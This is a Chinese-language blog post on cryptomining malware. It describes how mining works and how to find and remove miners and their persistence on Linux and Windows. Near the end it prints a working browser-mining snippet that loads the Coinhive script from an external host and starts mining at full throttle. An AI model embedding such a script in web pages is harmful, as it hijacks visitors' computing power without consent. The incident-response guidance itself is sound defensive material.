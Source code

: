 ```yaml
---
layout:     post
title:      挖矿脚本
date:       2019-1-16
author:     Wh0ale
header-img: img/1.jpg
---
```


# 0x01挖矿概论

所谓挖矿，其实就是通过计算机的计算能力获取数字货币。而矿池就是进行生产任务(挖矿)和生产利润的分配。一套挖矿流程大致如下：

 

1、本地安装挖矿程序并启动

2、挖矿程序向远程矿池请求计算的输入值

3、远程矿池验证该用户并分配任务，发送计算初始值

4、挖矿程序接受初始值并依照特定数字货币算法进行计算，得到计算结果并发送至矿池

5、矿池接受计算结果并发送下一次计算的输入值 

 

 

# 0x02挖矿病毒主要特点

1、由于需要与矿池通信，因此会与矿池建立连接 

2、挖矿利用计算机的算力，因此CPU,GPU的利用率会增加

3、为防止服务器重启挖矿进程中断，会建立任务实现开机自启动

4、为便于下一次利用，可能会留木马后门 

 

 

# 0x03挖矿病毒查杀(linux)

 

## 一：查找病毒文件 

1.  top      查看cpu使用情况，注意cpu异常的command
2. netstat -ano      查看是否有异常连接
3. ps -ef      命令全局检查异常程序及命令;ps -ef | grep command 查看异常command的进程,记录相应pid
4. ls -l /proc/pid      查看相应pid的详细信息(查找病毒执行文件所在地)
              4.1 cwd：表示进程的运行目录(常为服务器攻击成功后所在目录)
              4.2 exe：表示执行程序的绝对路径(常为病毒文件目录)
              4.3 cmdline：表示程序运行时输入的命令行命令
              4.4 environ：记录进程运行时的环境变量
              4.5 fd：该目录为进程打开或使用的文件的符号连接
              病毒文件找到后，注意解读病毒文件内容，寻找有效信息 

 

 

## 二：去除自启动项 

1. cat      /etc/rc.local 查看rc.local的开机自启动项是否异常
2. cd      /var/spool/cron/crontabs; cat filename 查看计划任务是否正常
3. ntsysv 或      chkconfig –list 查看系统服务 

 

 

## 三：查找后门文件 

1. history      ; cat ~/.bash_history 查看被攻击后所执行的历史命令
2. find / -mtime 0      返回最近24小时修改过的文件
3. find / -mtime 1      返回最近24-48小时间修改过的文件
4. netstat -ano      后门文件同样也要建立连接，查看异常连接 

 

 

# 0x04挖矿病毒查杀(windows)

 

## 一：查找病毒文件 

当任务管理器能打开时：任务管理查看cpu占用高的进程

当任务管理器不能打开时：

1. netstat      -na 查看异常端口
              1.1 netstat -ano | findstr “port” 查看对于端口的pid
              1.2 tasklist|findstr “pid” 查看对应pid的占用程序
              1.3 wmic process where name=”进程名” 查找对于进程所在目录
2. wmic cpu get      loadpercentage(查看总cpu占用)
3. wmic process      list brief|full 列出进程
4. taskkill /im 进程名      /f;taskkill /pid pid名 /f 杀进程  

 

## 二：去除自启动项 

1、(运行–>regedit)

HKEY_LOCAL _MACHINE\Software \Microsoft\Windows\CurrentVersion下所有以“run”开头的键值;

HKEY_CURRENT_USER\Software\ Microsoft\Windows\CurrentVersion下所有以“run”开头的键值;

HKEY_USERS\Default\Software\Microsoft\Windows\CurrentVersion下所有以“Run”开头的键值;

部分如下

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run]

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run]

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce]

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce]

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]

 

2、Win.ini中启动

[windows]字段中的”load=”和”run=”

 

3、自启动组

启动组对应的文件夹为:C: \Windows\Start Menu\Programs\StartUp，

在注册表中的位置:HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders Startup=”C:\windows\start menu\programs\startup”

 

4、修改文件关联

检查HKEY_CLASSES_ROOT\文件类型\shell\open\command主键，查看其键值是否正常

DOS下执行scanreg/restore 恢复前5天的注册表 

 

## 三：查找后门文件 

查找后门文件参考一二 

[挖矿脚本与反挖矿扩展程序测试页](http://tools.ldstu.com/miner/?utm_sources=/archives/41039.html)

![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz888mbhsxj20rx0jfgmo.jpg)

```html
<!-- 加载挖矿核心脚本 -->
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<!-- 测试专用API密钥、名称可自定义 -->
<script>
var miner = new CoinHive.User('mrvzoq1cDAIacUG3dGEkg2TJznuIogMB','Landian', {
	threads: 4,
	autoThreads: false,
	throttle: 0,
	forceASMJS: false
});
    miner.start();
</script>
<!-- 加载统计代码 -->
<script>
var _hmt = _hmt || [];
(function() {
  var hm = document.createElement("script");
  hm.src = "https://hm.baidu.com/hm.js?2378278a9b9c54d270c1d6245e3c06ed";
  var s = document.getElementsByTagName("script")[0]; 
  s.parentNode.insertBefore(hm, s);
})();
</script>
<!-- 统计代码归属于Tools域名 -->
</body>
</html>

```



参考文章：

<http://www.chaindd.com/3098505.html>

<http://www.freebuf.com/vuls/181267.html>

[coinhive脚本](https://coinhive.com/documentation/miner)